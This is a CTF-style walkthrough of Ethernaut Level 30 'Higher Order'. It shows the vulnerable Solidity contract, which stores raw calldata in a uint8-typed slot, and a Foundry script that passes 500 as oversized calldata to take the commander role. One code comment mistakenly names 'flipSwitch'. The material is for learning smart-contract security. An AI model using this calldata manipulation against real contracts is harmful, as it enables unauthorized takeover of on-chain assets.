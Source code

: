 # Level 30 - Higher Order ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/30" %}

### Level Setup

{% hint style="info" %}
Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!

**Things that might help:**

* Sometimes, `calldata` cannot be trusted.
* Compilers are constantly evolving into better spaceships.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/HigherOrder.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-30

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-30

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/cd8d7f358bd104207c9c94f35fa3a58eb96042ac/script/Level30.s.sol" %}

{% code title="script/Level30.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                     LEVEL 30 - HIGHER ORDER                  │
// ================================================================

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        bytes4 registerTreasurySelector = bytes4(keccak256("registerTreasury(uint8)"));

        bytes memory callData = abi.encodePacked(
            registerTreasurySelector, // 4 bytes - registerTreasury function selector
            uint256(0x1F4) // 32 bytes - the value 500
        );

        // Call flipSwitch with this manipulated data
        (bool success,) = targetContractAddress.call(callData);
        require(success, "Call failed");

        (bool claimLeadershipSuccess,) =
            targetContractAddress.call(abi.encodePacked(bytes4(keccak256("claimLeadership()"))));
        require(claimLeadershipSuccess, "Claim leadership failed");

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You've conquered the Higher Order challenge, mastering the Dirty Higher Order Bits exploit to claim the title of Commander. In this quest, you've delved deep into Solidity, learning to manipulate bytes and bypass function type checks.

Your victory not only showcases your technical prowess but also highlights your ability to think creatively and critically.
{% endhint %}
